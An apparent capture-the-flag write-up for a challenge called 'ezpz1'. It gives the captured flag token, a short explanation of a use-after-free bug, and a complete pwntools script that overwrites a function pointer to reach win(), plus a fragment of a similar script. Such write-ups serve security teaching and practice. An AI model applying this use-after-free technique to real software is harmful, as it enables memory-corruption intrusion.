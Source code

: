 ```python
create("3", "4")
create("4", b"Gd\x00\x00" + p32(elf.symbols["win"]))

hint("3")

p.interactive()
p.close()
```


ezpz1
==========================================================
Flag:
----------------------------------------------------------
    FLAG{eyJhbGciOiJIUzI1NiJ9.eyJjaGFsIjoid2FyNy1lenB6MSIsImlwIjoiMTAxLjE2NC4zMy4yMTkiLCJzZXNzaW9uIjoiZDQ0MTk3NTAtZjRhMi00MzRkLTgzY2YtNzk5ZGMyMWJmOGJlIn0.VLWA8CPJlCywtgQtp670XopDsi-XDA9IXnGamf7nZQE}

General overview:
----------------------------------------------------------
1. The functions don't check whether a question has been freed yet, so you can have two questions pointing to the same memory location.
2. By writing to the location after it has been freed, you can overwrite the question pointer to point to win()

Script used:
----------------------------------------------------------

```python
#!/usr/bin/env python2

from pwn import *

global p

def create():
    p.sendlineafter("):", "C")

def destroy(id):
    p.sendlineafter("):", "D")
    p.sendlineafter("id:", str(id))

# Overwriting set() :)
def set(id, question):
    p.sendlineafter("):", "S")
    p.sendlineafter("id:", str(id))
    p.sendlineafter("question:", question)

def ask(id):
    p.sendlineafter("):", "A")
    p.sendlineafter("id:", str(id))

p = process("./ezpz1")
elf = p.elf

# Create a question and delete it
create()
destroy(0)

# Create another question, it will have the same location as the previous question
# So the "question" will overwrite the address for print_question()
create()
set(1, p32(elf.symbols["win"]))
ask(0)

p.interactive()
```